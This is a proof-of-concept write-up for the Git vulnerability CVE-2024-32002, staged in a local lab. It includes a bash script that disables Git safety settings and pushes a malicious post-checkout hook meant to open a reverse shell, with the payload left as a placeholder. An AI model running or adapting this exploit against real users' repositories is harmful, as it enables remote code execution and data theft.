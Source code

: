 The impact of CVE-2024-32002 is severe. By exploiting this vulnerability, an attacker can execute arbitrary code on the targeted system with the privileges of the user running the affected Git application. This can lead to:

- **Data Theft**: The attacker can access and exfiltrate sensitive data from the victim's system.
- **System Compromise**: The attacker can gain control over the victim's system, potentially installing malware or creating backdoors.
- **Further Propagation**: The attacker can use the compromised system to launch further attacks on other systems or networks.


### Proof of Concept (PoC) for CVE-2024-32002 Exploit

This PoC demonstrates how an attacker can exploit the CVE-2024-32002 vulnerability in Git to execute a malicious hook script. The script sets up a malicious repository with a submodule and a symbolic link, then clones the repository to trigger the execution of the malicious hook.

#### Scenario:

For exploiting the CVE-2024-32002 vulnerability I'm using my own Gitea server running locally in a Docker container and a Virtual machine of Windows 10 as a victim machine.

PoC script - [Link](https://github.com/NishanthAnand21/CVE-2024-32002-PoC.git)

#### Step-by-Step Explanation

1. **Configure Git**: Set global Git configurations to allow file protocols and enable symbolic links.
2. **Clean Up**: Remove any existing `repo1` and `repo2` directories to start fresh.
3. **Clone Malicious Repository**: Clone a repository (`repo1`) from the attacker's server.
4. **Create Malicious Hook**: Create a `post-checkout` hook in `repo1` that executes a payload.
5. **Push Malicious Hook**: Add, commit, and push the malicious hook to the remote repository.
6. **Set Up Submodule**: Clone another repository (`repo2`), add `repo1` as a submodule, and create a symbolic link to the `.git` directory.
7. **Trigger Exploit**: Clone the malicious repository to execute the hook and start a reverse shell.

#### PoC Script

```sh
#!/bin/bash

# Configure Git to allow file protocol and enable symbolic links
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

# Clean up any existing repositories
rm -rf repo1
rm -rf repo2

# Clone the malicious repository
git clone http://<ip>:<port>/<name of the owner>/repo1.git
cd repo1

# Create a malicious post-checkout hook
mkdir -p y/hooks
cat > y/hooks/post-checkout <<EOF
#!/bin/sh
<Payload>
EOF
chmod +x y/hooks/post-checkout

# Add, commit, and push the malicious hook
git add y/hooks/post-checkout
git commit -m "Add malicious post-checkout hook"
git push
```